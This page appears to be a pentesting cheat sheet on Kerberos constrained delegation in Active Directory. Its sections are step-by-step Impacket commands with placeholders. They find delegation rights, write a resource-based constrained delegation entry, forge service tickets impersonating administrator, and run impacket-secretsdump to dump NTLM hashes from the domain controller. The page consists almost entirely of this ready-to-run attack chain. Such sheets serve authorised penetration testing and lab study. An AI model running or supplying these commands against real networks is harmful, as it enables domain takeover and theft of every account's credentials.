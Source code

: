 ```yaml
---
title: "Constrained Delegation"
date: 2024-8-2
tags: ["constrained delegation", "active driectory", "ad", "Windows", "impacket", "rbcd"]
---
```


---
### Abuse #1: RBCD Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Find delegation

<div>

```bash
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USERNAME>' -dc-ip <DC> -hashes :<HASH> -k
```

```bash
impacket-getST -spn <SERVICE>/<DC> -impersonate administrator '<DOMAIN>/<USERNAME>' -hashes :<HASH> -self
```

```bash
# Check forwardable flag
describeTicket.py <TICKET_1>.ccache
```

</div>

#### 2. RBCD

<div>

```bash
# Add delegation
impacket-rbcd '<DOMAIN>/<USERNAME>' -hashes :<HASH> -k -delegate-from <USERNAME> -delegate-to <TARGET_1> -action write -dc-ip <DC> -use-ldaps
```

```bash
# Check
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USERNAME>' -dc-ip <DC> -hashes :<HASH> -k
```

```bash
# Impersonate
impacket-getST '<DOMAIN>/<USERNAME>:<PASSWORD>' -spn <SERVICE>/<DC> -impersonate <TARGET_2>
```

```bash
# Check forwardable flag
describeTicket.py <TICKET_2>.ccache
```

</div>

#### 3. Impersonate

<div>

```bash
impacket-getST -spn <SERVICE>/<DC> -impersonate <TARGET_2> '<DOMAIN>/<TARGET_1>' -hashes :<HASH> -additional-ticket <TICKET_2>.ccache
```

</div>

#### 4. Secrets Dump

<div>

```bash
# Import ticket
export KRB5CCNAME='<TICKET_2>.ccache'
```

```bash
impacket-secretsdump -no-pass -k <DC> -just-dc-ntlm
```

</div>

{{< /tabcontent >}}

<br>
